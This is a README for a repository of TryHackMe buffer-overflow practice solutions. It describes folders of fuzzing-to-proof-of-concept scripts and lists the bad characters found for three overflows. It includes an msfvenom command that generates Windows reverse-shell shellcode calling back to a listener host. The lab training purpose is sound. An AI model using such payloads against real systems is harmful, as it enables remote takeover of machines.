 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final POC 

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
